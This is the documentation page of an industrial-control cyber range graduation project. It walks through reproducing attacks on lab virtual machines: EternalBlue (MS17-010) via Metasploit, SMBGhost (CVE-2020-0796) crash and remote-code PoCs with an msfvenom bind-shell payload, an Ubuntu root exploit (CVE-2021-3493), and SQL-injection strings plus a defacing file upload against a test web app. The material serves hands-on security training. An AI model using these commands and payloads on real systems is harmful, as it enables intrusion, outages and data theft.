




# **工控网络靶场**

>  本网页是工控网络靶场系统毕业设计的可视化文档网页，提供展示工控网络靶场的全流程操作，详细叙述本设计的所有实践步骤，帮忙用户快速使用本工控网络靶场系统。

---

# 概述

> 本工控网络靶场系统设计是一基于VMware Workstation Hypervisor 虚拟机实现的网络攻防平台，透过模拟一间中小工业企业内部的网络场景，并部署一系列的系统漏洞，提供用户可在虚拟环境进行网络攻击与防御的实践操作，且无需担心伤害真实网络及。

## 工控网络靶场的目的

> 工控网络靶场系统的目的主要是为了对现实网络的进行仿真，在高度还原并且可控的场景下进行网络安全的实践，搭配网络攻击、网络威胁抵御及漏洞分析等作为支撑网络空间安全技术验证，并且搭建成本低，可复用性高的网络安全攻防平台。此外，工控网络靶场用途广泛，所有相关领域可利用网络靶场对员工进行对网络安全意识的提升，并且提升相关人员对网络安全威胁的抵御能力。

---

# **快速使用**

## 网络拓扑结构部署



搭建工控网络靶场主要透过VMware Workstation 部署相应的操作系统镜像，以此还原工控内部网络的场景，并在该平台进行攻防的演练。本工控网络靶场主要以 2台攻击机， 一台 Windows 7操作系统虚拟机模拟工控系统靶机，一台Windows服务器虚拟机模拟公司内部的服务器，及一台Windows 10 V1903虚拟机模拟公司工作人员的个人计算机和一台Ubuntu-Linux虚拟靶机。攻击机主要以Windows 10 和 Kali-Linux，并搭配Kali-Linux里自带的Metasploit Framework 和其他工具作为主要的攻击手段，并将一下所有的设备，透过虚拟网卡连接组成一局域网，并在IP地址里的同一C段进行远程访问及攻击的发送。

本工控网络靶场系统的所有镜像资源可在[相关下载](#相关下载)页面进行下载。


---

# **漏洞攻击步骤**

## Windows 操作系统漏洞

### (1)Windows 7操作系统漏洞 MS17-010 

利用Kali linux中的Metasploit Framework对Windows 7靶机进行漏洞渗透，利用经典漏洞MS17-010永恒之蓝，实现透过SMB远程获得目标靶机的最高权限控制权，该漏洞攻击复现需用以下主机设备：

| 主机名称          | IP地址          |
| ----------------- | --------------- |
| 目标靶机Windows 7 | 192.168.255.134 |
| 攻击机 Kali-Linux | 192.168.255.130 |

步骤演示：

1.将两部虚拟机开启。

2.将目标机器Windows 7的防火墙关闭。

3.在Kali linux上利用nmap 扫描目标机器的445端口是否开启。

```
nmap 192.168.255.134 -p445
```


4.扫描后发现开启即可进入下一步，开启新的终端界面启动metasploit framework。

``` 
msfconsole
```

5.在MSF中查找MS17-010相关的漏洞的模块，先利用auxiliary/scanner/smb/smb_ms17_010 模块进行漏洞扫描

``` 
search ms17-010
use 3
run
```


6.扫描后得到Host is likely VULNERABLE to MS17-010! - Windows 7 Enterprise 7600 x64 (64-bit)，说明该目标机器有该漏洞影响

7.接着再次search ms17-010，查找exploit渗透模块并进入

``` 
search ms17-010
use 2
```


8.查看该模块的具体参数并设置必要参数，并设置目标机器的IP地址

```
show options
set RHOSTS 192.168.255.134
```

9.执行该模块进行渗透

10.结果最终表示win，说明成功渗透拿到靶机的最高权限


11.在返回的会话窗中，执行shell，并可查看该靶机当前的所有信息


12.以下为对比攻击机与目标靶机的相关信息


### (2)Windows 10操作系统漏洞 CVE-2020-0796

与WIndows7 的MS17-010 （Eternal Blue）相似，具有“永恒之黑”之称的漏洞CVE-2020-0796是微软服务器消息块第三代（SMBv3）协议中存在的远程执行代码漏洞，本漏洞攻击复现需用到一下虚拟机设备：

| 主机名称                 | IP地址          |
| ------------------------ | --------------- |
| 目标靶机 Windows10 V1903 | 192.168.255.135 |
| 攻击机 Kali-Linux        | 192.168.255.130 |

步骤演示：

#### 蓝屏攻击漏洞

1.部署并启动存在该漏洞Windows 10的镜像，并将靶机的防火墙及windows update服务关闭。



2.启动攻击机，并通过git命令下载检测CVE-2020-0796漏洞的脚本。

``` 
git clone https://github.com/ollypwn/SMBGhost.git
```


3.利用脚本对目标机器的IP地址进行扫描，扫描是否存在CVE-2020-0796漏洞可利用，“Vulnerable”表明该Windows10主机存在漏洞。


4.在Kali-Linux上下载该漏洞蓝屏攻击的PoC (proof of concept) exploit 渗透脚本。

``` 
git clone https://github.com/eerykitty/CVE-2020-0796-PoC.git
```


5.下载完成后，运行setup.py 安装该漏洞脚本的所需运行环境。


6.利用PoC对Windows10靶机进行攻击

``` 
python3 CVE-2020-0796.py 192.168.255.135
```


7.Windows10蓝屏后被迫重启，故利用CVE-2020-0796漏洞成功进行蓝屏攻击



#### 远程获得管理员权限漏洞

1.承接上面的步骤，在攻击机上继续下载远程攻击渗透脚本

``` 
git clone https://github.com/chompie1337/SMBGhost_RCE_PoC.git
```

2.生成shell code替换，将exploit.py的USER_PAYLOAD部分删除，替换为shellcode.txt里生成的payload。替换之后，追加一行“USER_PAYLOAD = buf”。替换完成后便可运行exploit.py脚本对目标机器进行渗透攻击，该部分可能会造成目标机器蓝屏重启，若出现此状况，可多次重复该步骤。

``` 
msfvenom -p windows/x64/meterpreter/bind_tcp lport=1234 -f py -o shellcode.txt 
python3 exploit.py -ip 192.168.255.135
```


3.直到稳定运行程序后，目标机器暂无异状，在攻击机上开启新的终端会话，并启动Metasploit Framework，进行模块设置相关监听参数：

``` 
msfconsole
use exploit/multi/handler 
set payload windows/x64/meterpreter/bind_tcp
set lport 1234
set rhost 192.168.255.135
exploit
```


4.完成后运行监听，返回查看终端会话，发现已成功建立远程连接，并获得了管理员权限system32


5.最后在目标机器的终端中可查看本次远程连接的端口连接状态，显示存在连接。


## Linux  操作系统漏洞

### (1)Linux操作系统漏洞 CVE-2021-3493

CVE-2021-3493漏洞是ubuntu内核提权漏洞，该漏洞利用可让本地普通用户或非root用户无需root密码，拿到root用户权限。同理，用户只需通过ssh远程登录普通用户，即可利用该漏洞得到最高权限。该漏洞仅对linux kernel版本低于5.11的有效，受影响的ubuntu版本有Ubuntu 20.10，Ubuntu 20.04LTS，Ubuntu 19.04等。

这里我使用Ubuntu 20.04LTS版本做演示：


1.首先将ubuntu的linux kernel降至低于5.11，过程有点复杂，这里直接附上结果，采用5.4.0内核版本做演示。




2.查看正在使用的用户及当前权限，当前的用户为lowxuan


3.透过git clone https://github.com/briskets/CVE-2021-3493 下载相关漏洞脚本

4.解压相关文件到desktop文件夹中

5.编译exploit.c ，并赋予expoilt 可执行权限

6.执行exploit


7.可以看见终端$符号变成了#符号，接下来输入whoami 及 id命令查看现在的权限。

8.结果演示id 和 whoami 都显示为root权限。


解决方法：

安装完成ubuntu后，尽快联网更新最新版本的kernel，并将自动更新打开。


## 服务器Web应用漏洞

服务器漏洞，需现在服务器虚拟机上部署WAMP/LAMP ，并搭配一个简单的员工管理登录系统，透过工具phpstudy在靶机上部署相关服务器，数据库等环境，并将网页应用部署上线，并透过攻击机的浏览器浏览服务器的IP地址及Web应用的端口，进行漏洞测试等练习，此Web应用包含了弱密码、数据库漏洞和文件上传漏洞等，需要用的设备如下：

| 主机名称                | IP地址          |
| ----------------------- | --------------- |
| 服务器Windows靶机       | 192.168.255.131 |
| 本机/攻击机（访问网页） | 127.0.0.1       |

### 弱密码

Web登录系统的简易演示如下：

1.利用phpStudy将Web应用登录系统部署上线


2.在攻击机访问靶机ip的网页，靶机ip为192.168.255.131:9090


3.点击forget，在这里利用数据库嗅探字段查询相关有用信息


4.利用 ' or 1=1 # ，查询可得到表里的id


5.尝试利用' or 1=1 # 来进行登入，登录员工账号显示完整信息


### 数据库漏洞

6.返回forget，继续利用数据库查询语句，查询数据库的信息

``` 
'UNION SELECT USER() # 当前数据库用户

'UNION SELECT VERSION() # 数据库版本信息

'UNION SELECT DATABASE() # 数据库名称

' UNION SELECT table_name FROM information_schema.TABLES WHERE TABLE_SCHEMA = DATABASE() # 查询数据库表名
```


### 文件上传漏洞

7.返回登录界面的首页，尝试登录经理账号，经理账号可对数据进行修改及系统文件上传


8.利用系统文件上传，上传同名index.html，恶意破坏界面


# **相关下载**

### 虚拟机监控程序

[VMware Workstation 虚拟机监控程序](https://www.vmware.com/products/workstation-pro/workstation-pro-evaluation.html)

### 相关操作系统的镜像

[Windows 7 操作系统镜像](https://msdn.itellyou.cn/)

Windows 10-V1903 操作系统镜像(需透过工具下载，或自行搜索相关版本镜像)

``` 
ed2k://|file|cn_windows_10_business_editions_version_1903_x64_dvd_e001dd2c.iso|4815527936|47D4C57E638DF8BF74C59261E2CE702D|)
```

[Windows 10服务器操作系统镜像](https://msdn.itellyou.cn/)

[Ubuntu-Linux 操作系统镜像](https://ubuntu.com/download/desktop)

[Kali-Linux 操作系统镜像](https://www.kali.org/get-kali/)

### 其他工具

[phpStudy 服务器集合环境搭建工具](https://www.xp.cn/)

[SQLyog 数据库可视化工具](https://github.com/webyog/sqlyog-community/wiki/Downloads)


---
# **About me**

作者：刘轩

Email：lowxuan0421@gmail.com

---